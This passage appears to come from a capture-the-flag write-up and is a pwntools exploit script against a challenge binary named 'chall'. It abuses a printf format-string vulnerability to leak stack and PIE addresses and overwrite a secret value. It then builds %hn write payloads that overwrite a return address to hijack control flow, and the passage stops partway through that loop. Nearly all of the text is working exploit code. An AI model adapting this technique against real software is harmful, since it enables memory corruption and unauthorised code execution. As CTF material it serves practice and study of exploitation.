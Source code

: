 ```python
gdbscript = f"""
b chall
continue
"""

def start():
    if args.GDB:
        io = gdb.debug(exe_name, gdbscript=gdbscript)
    elif args.LOCAL:
        io = process(exe_name)
    else:
        io = remote(HOST, PORT)
    return io

def fmt_write_16_payload(what, where, already_written, fix_secret=False):
    max_value = 2 ** 16 - 1
    assert what & max_value == what
    assert already_written & max_value == already_written   # Always true since already_written is either 0x1c or 0x1f
    printf_offset = 26

    # print(f"fmt_write_16_payload -> offs: {printf_offset}, what: {hex(what)}, where: {hex(where)}, already_written: {hex(already_written)}")

    if fix_secret:
        prefix = b"%25$n"
        expected_len = 24
        printf_offset += 1
    else:
        prefix = b""
        expected_len = 16

    part1 = f"%{max_value + 1 + what - already_written}c".encode()
    part2 = f"%{printf_offset + 2}$hn".encode()
    padding = b"A" * (expected_len - len(prefix) - len(part1) - len(part2))
    part3 = p64(where)
    payload = prefix + part1 + part2 + padding + part3
    return payload

# Repeat exploit until flag is found, there could be a newline somewhere breaking fgets
while True:

    io = start()

    # Leak stack and pie + overwrite secret
    io.sendafter(b"Who are you?", b"%25$n%36$lx.%37$lx")
    io.sendafter(b"What is the secret?", b"\x1c\x00")
    io.recvuntil(b"Guess attempt: ")
    stack_leak = io.recvuntil(b".", drop=True)
    stack_leak = int(stack_leak, 16)
    print(f"stack_leak: {hex(stack_leak)}")
    stack_ret = stack_leak - 0x8
    print(f"stack_ret: {hex(stack_ret)}")

    main_addr = io.recvline().strip()
    main_addr = int(main_addr, 16) - 24
    pie_base = main_addr - exe.symbols["main"]
    print(f"main_addr: {hex(main_addr)}")
    print(f"pie_base: {hex(pie_base)}")

    # Use format string to write return address LSB
    main_ret_bytes = (main_addr + 19) & 0xffff
    io.sendafter(b"Who are you?", fmt_write_16_payload(main_ret_bytes, stack_ret, 0x1f))
```